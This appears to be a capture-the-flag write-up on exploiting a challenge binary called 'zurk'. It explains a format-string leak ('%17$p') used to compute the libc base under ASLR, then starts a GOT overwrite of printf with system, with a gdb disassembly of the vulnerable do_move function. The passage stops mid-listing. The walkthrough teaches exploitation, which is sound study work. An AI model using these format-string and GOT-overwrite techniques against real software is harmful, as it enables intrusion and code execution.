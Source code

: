 Basically send `%17$p` to `zurk`, then capture the leaked address, subtract _240_, then subtract the location of `__libc_start_main` from `libc-2.23.so`.

> NOTE: The version of _libc_ matters.  E.g. with 2.30 the delta was _243_.  Use the `libc` provided with the challenges.

We now know where the base of `libc` is in RAM.

> TIP: `ldd zurk`, and look at the `libc.so` location, it changes (ASLR), but also notices it ends in `000`.  Our computed base better also end in `000`.  Use that to debug.


#### Overwrite GOT/PLT `printf` with address of `system`

`printf` is not part of `zurk`; it's part of `libc`, `zurk` just uses it.  Because `zurk` is dynamically linked `zurk` does not know the address of `printf`.  But `zurk` knows where to look for the address of `printf` when it needs it and expects the kernel at runtime to populate it.  This lookup table _location_ is determined at compile time and is static, and, can be exploited:

Dissemble `do_move`:

```
gef➤  disas do_move
Dump of assembler code for function do_move:
   0x00000000004006c5 <+0>:	push   rbp
   0x00000000004006c6 <+1>:	mov    rbp,rsp
   0x00000000004006c9 <+4>:	sub    rsp,0x40
   0x00000000004006cd <+8>:	mov    edi,0x400897
   0x00000000004006d2 <+13>:	call   0x400520 <puts@plt>
   0x00000000004006d7 <+18>:	mov    rdx,QWORD PTR [rip+0x200982]        # 0x601060 <stdin@@GLIBC_2.2.5>
   0x00000000004006de <+25>:	lea    rax,[rbp-0x40]
   0x00000000004006e2 <+29>:	mov    esi,0x32
   0x00000000004006e7 <+34>:	mov    rdi,rax
   0x00000000004006ea <+37>:	call   0x400560 <fgets@plt>
   0x00000000004006ef <+42>:	lea    rax,[rbp-0x40]
   0x00000000004006f3 <+46>:	mov    esi,0x4008b2
   0x00000000004006f8 <+51>:	mov    rdi,rax
   0x00000000004006fb <+54>:	call   0x400540 <strcspn@plt>
   0x0000000000400700 <+59>:	mov    BYTE PTR [rbp+rax*1-0x40],0x0
   0x0000000000400705 <+64>:	lea    rax,[rbp-0x40]
   0x0000000000400709 <+68>:	mov    esi,0x4008b4
   0x000000000040070e <+73>:	mov    rdi,rax
   0x0000000000400711 <+76>:	call   0x400570 <strcmp@plt>
   0x0000000000400716 <+81>:	test   eax,eax
   0x0000000000400718 <+83>:	jne    0x400730 <do_move+107>
   0x000000000040071a <+85>:	mov    edi,0x4008c0
   0x000000000040071f <+90>:	call   0x400520 <puts@plt>
   0x0000000000400724 <+95>:	mov    edi,0x400858
   0x0000000000400729 <+100>:	call   0x400520 <puts@plt>
   0x000000000040072e <+105>:	jmp    0x400776 <do_move+177>
   0x0000000000400730 <+107>:	lea    rax,[rbp-0x40]
   0x0000000000400734 <+111>:	mov    esi,0x4008f8
   0x0000000000400739 <+116>:	mov    rdi,rax
   0x000000000040073c <+119>:	call   0x400570 <strcmp@plt>
   0x0000000000400741 <+124>:	test   eax,eax
   0x0000000000400743 <+126>:	jne    0x40075b <do_move+150>
   0x0000000000400745 <+128>:	mov    edi,0x400900
   0x000000000040074a <+133>:	call   0x400520 <puts@plt>
   0x000000000040074f <+138>:	mov    edi,0x400858
   0x0000000000400754 <+143>:	call   0x400520 <puts@plt>
   0x0000000000400759 <+148>:	jmp    0x400776 <do_move+177>
   0x000000000040075b <+150>:	lea    rax,[rbp-0x40]
   0x000000000040075f <+154>:	mov    rdi,rax
   0x0000000000400762 <+157>:	mov    eax,0x0
   0x0000000000400767 <+162>:	call   0x400530 <printf@plt>
   0x000000000040076c <+167>:	mov    edi,0x400938
```